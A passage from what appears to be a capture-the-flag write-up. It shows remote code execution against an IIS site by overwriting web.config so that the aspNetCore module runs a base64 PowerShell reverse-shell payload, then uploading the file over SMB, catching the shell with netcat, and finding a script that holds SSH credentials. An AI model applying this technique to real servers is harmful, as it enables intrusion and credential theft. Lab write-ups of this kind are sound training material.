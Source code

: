 After doing some research, I found an RCE exploit that we can utilize that uses aspNetCore module that is already present in the configuration file. The resource I used for RCE exploit can be found here, all credit goes to Jeroen Verhaeghe.

If we alter the aspNetCore module to instead use PowerShell as its process path, we can pass in PowerShell arguments into the arguments section within the module. In theory, this should render the website unusable due to the application requiring the serialization of AccountingApp.dll. That being said, it should execute our payload before receiving this error. This was essentially the only way to achieve RCE that I found, I am open to understanding other ways to achieve this without rendering the web application unusable.

So with that being said let’s replace the module initialization and the actual module itself, I’ve made the necessary changes to the file as seen below (Note that the payload that I’m using is from [revshells](https://www.revshells.com/)).

    <?xml version="1.0" encoding="utf-8"?>
    <configuration>
    <location path="." inheritInChildApplications="false">
        <system.webServer>
        <handlers>
            <add name="aspNetCore" path="execute.now" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
        </handlers>
        <aspNetCore processPath="powershell" arguments="-e (POWERSHELL BASE64 PAYLOAD)" hostingModel="OutOfProcess" />
        </system.webServer>
    </location>
    </configuration>
    <!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->

after we changing lets upload it and get reverse shell

    smb: \> rm web.config
    smb: \> put web.config
    putting file web.config as \web.config (5.8 kb/s) (average 5.8 kb/s)

and got our first flag


    ➜  heron nc -nvlp 9001
    listening on [any] 9001 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.156.21] 62127
    ls


        Directory: C:\webaccountin

    PS C:\Windows\Scripts> type ssh.ps1
    $plinkPath = "C:\Program Files\PuTTY\plink.exe"
    $targetMachine = "frajmp"
    $user = "_local"
    $password = "<redacted>"
    & "$plinkPath" -ssh -batch $user@$targetMachine -pw $password "ps auxf; ls -lah /home; exit"

This seems to contain the SSH password for the _local user. An admin user was probably trying to establish an SSH session to the frajmp jumpbox as this user using PuTTY.
